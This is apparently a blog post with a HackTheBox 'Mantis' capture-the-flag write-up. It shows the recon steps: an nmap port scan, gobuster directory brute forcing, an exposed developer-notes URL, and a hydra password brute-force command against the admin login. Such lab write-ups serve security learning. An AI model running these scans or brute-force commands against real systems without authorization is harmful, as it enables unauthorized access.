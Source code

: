 ```yaml
---
layout: post
title: HackTheBox Mantis
subtitle: Tracks Intro to Offshore Mantis WriteUp
author: g3rm
categories: 
banner:
  image: /assets/images/banners/home.gif
  opacity: 0.618
  background: "#000"
  heading_style: "font-size: 4.25em; font-weight: bold;"
  subheading_style: "color: gold"
tags:
  - HTB
  - WriteUp
sidebar:
---
```



## Summary
![](/assets/images/posts/2025-03-22-Mantis/a4ec388428362331d352e0c8197628f3_MD5.jpeg)
## Target - 10.129.104.28
### Nmap
```bash
nmap -sC -sV -Pn -oN Mantis -p- 10.129.104.28
```
![](assets/images/posts/2025-03-22-Mantis/769c3d479a620a851ae7a3b20c848432_MD5.jpeg)

### Web
```bash
# wordlist 선택 잘 해야함.
gobuster dir -u http://10.129.110.72:1337 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

# 접근
http://10.129.110.72:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt

# admin으로 brute force
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.129.110.72 http-post-form "/Users/Account/LogOn:userNameOrEmail=admin&password=^PASS^:Login was unsuccessful"
```
![](/assets/images/posts/2025-03-22-Mantis/253d3af748f2c0f3266103b94180bd28_MD5.jpeg)
![](/assets/images/posts/2025-03-22-Mantis/b38c293fda4d4164f2191b50a7ca303e_MD5.jpeg)
### Info
```txt
domain : htb.local

1337 IIS 7.5
1433 MSSQL / 50255 MSSQL Server
8080 http
```